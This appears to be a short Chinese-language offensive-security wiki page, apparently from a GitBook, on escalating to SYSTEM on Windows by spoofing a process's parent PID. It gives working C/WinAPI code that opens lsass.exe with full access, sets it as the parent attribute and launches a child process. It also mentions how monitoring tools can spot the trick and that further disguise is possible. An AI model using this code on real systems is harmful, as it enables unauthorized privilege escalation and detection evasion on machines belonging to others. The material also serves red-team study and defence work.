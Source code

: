 ```yaml
---
description: PPID-Priv
---
```


# 通过伪装PPID提权到SYSTEM

## 简介

在指定父进程句柄的时候,子进程同时也会继承父进程的权限，这样的话我们也可以通过伪装PPID的方式进行提权，但是这样的技术会有一个较大的缺陷，如果使用process explorer等进程监控软件查看的话会显示在系统权限的进程下派生出了一个子进程，这样会有较大的特征,更容易会被发现，当然也可以通过其他技术手段进行为伪装。

ps:需要管理员权限

## 代码实现

```text
        STARTUPINFOEX sie = { sizeof(sie) };
        PROCESS_INFORMATION pi;
        SIZE_T cbAttributeListSize = 0;
        PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
        HANDLE hParentProcess = NULL;
        DWORD dwPid = 0;

        dwPid = FindProcessPID(L"lsass.exe");

            InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
            pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
            InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);
            hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
            UpdateProcThreadAttribute(pAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);

            sie.lpAttributeList = pAttributeList;
            CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&sie.StartupInfo, &pi);

            DeleteProcThreadAttributeList(pAttributeList);
            CloseHandle(hParentProcess);
```

![](../.gitbook/assets/image%20%2841%29.png)

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}




